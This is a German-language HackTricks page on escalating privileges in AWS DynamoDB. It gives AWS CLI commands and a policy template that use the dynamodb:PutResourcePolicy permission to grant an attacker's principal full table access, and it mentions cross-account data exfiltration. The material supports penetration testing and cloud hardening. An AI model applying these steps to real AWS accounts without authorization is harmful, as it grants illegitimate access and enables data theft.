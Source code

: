 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

Für weitere Informationen zu dynamodb siehe:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, und optional `dynamodb:GetResourcePolicy`

Seit März 2024 bietet AWS *ressourcenbasierte Richtlinien* für DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Wenn Sie also die `dynamodb:PutResourcePolicy` für eine Tabelle haben, können Sie sich oder einem anderen Principal einfach vollen Zugriff auf die Tabelle gewähren.

Das Gewähren der `dynamodb:PutResourcePolicy` an einen zufälligen Principal geschieht oft versehentlich, wenn die Administratoren denken, dass das Gewähren von `dynamodb:Put*` nur dem Principal erlauben würde, Elemente in die Datenbank einzufügen - oder wenn sie dieses Berechtigungsset vor März 2024 gewährt haben...

Idealerweise haben Sie auch `dynamodb:GetResourcePolicy`, sodass Sie keine anderen potenziell wichtigen Berechtigungen überschreiben, sondern nur die zusätzlichen Berechtigungen injizieren, die Sie benötigen:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Wenn Sie die aktuelle Richtlinie nicht abrufen können, verwenden Sie einfach diese, die Ihrem Principal vollen Zugriff auf die Tabelle gewährt:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Wenn Sie es anpassen müssen, hier ist eine Liste aller möglichen DynamoDB-Aktionen: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Und hier ist eine Liste aller Aktionen, die über eine ressourcenbasierte Richtlinie erlaubt werden können *UND welche davon kontenübergreifend verwendet werden können (denken Sie an Datenexfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Jetzt, da das Richtliniendokument `policy.json` bereit ist, fügen Sie die Ressourcenrichtlinie hinzu:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Jetzt sollten Sie die benötigten Berechtigungen haben.

### Post-Exploitation

Soweit ich weiß, gibt es **keinen anderen direkten Weg, um Berechtigungen in AWS nur durch einige AWS `dynamodb`-Berechtigungen zu eskalieren**. Sie können **sensible** Informationen aus den Tabellen lesen (die AWS-Anmeldeinformationen enthalten könnten) und **Informationen in die Tabellen schreiben** (was andere Schwachstellen auslösen könnte, wie z.B. Lambda-Code-Injektionen...), aber all diese Optionen sind bereits auf der **DynamoDB Post-Exploitation-Seite** berücksichtigt:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Daten lesen durch Missbrauch von Datenströmen

{{#include ../../../banners/hacktricks-training.md}}
